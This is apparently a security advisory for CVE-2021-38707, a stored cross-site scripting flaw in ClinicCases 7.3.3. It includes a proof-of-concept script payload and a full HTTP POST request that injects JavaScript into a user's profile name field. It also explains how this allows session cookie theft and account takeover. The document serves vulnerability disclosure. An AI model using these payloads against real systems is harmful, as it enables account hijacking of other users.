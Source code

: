 # CVE-2021-38707
## Persistent Cross-Site Scripting (XSS) in ClinicCases 7.3.3 

Persistent cross-site scripting (XSS) vulnerabilities in ClinicCases
7.3.3 allow low-privileged attackers to introduce arbitrary JavaScript
to account parameters. The XSS payloads will execute in the browser of
any user who views the relevant content. This can result in account
takeover via session token theft.

### Detail

Arbitrary JavaScript can be injected into multiple areas of the application, which will be stored on the page and executed by a victim when loaded. For example, a student can inject code to their username fields:

```html
a<script>alert(document.cookie)</script>
```

![image](https://user-images.githubusercontent.com/52385049/132094249-9647ada2-9b27-4ba2-a948-bd1c49206623.png)

```http
POST /cliniccases/lib/php/users/preferences_process.php HTTP/1.1
Host: cliniccases.local
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 157
Origin: http://cliniccases.local
Connection: close
Referer: http://cliniccases.local/cliniccases/index.php?i=Home.php

first_name=student&last_name=a%3Cscript%3Ealert(1)%3C%2Fscript%3E&mobile_phone=&home_phone=&office_phone=&email=user%40example.com&id=2&action=update_profile
```

When an administrator (or any other user) views a page containing this field, the attacker-defined code will execute. As the `PHPSESSID` session cookie is insufficiently protected, it can be stolen by malicious JavaScript. This can be used for account takeover and session riding attacks - as observed with the `alert(document.cookie)` payload.

![image](https://user-images.githubusercontent.com/52385049/132094271-c2a9c63b-3740-4454-b96a-06474475cf74.png)
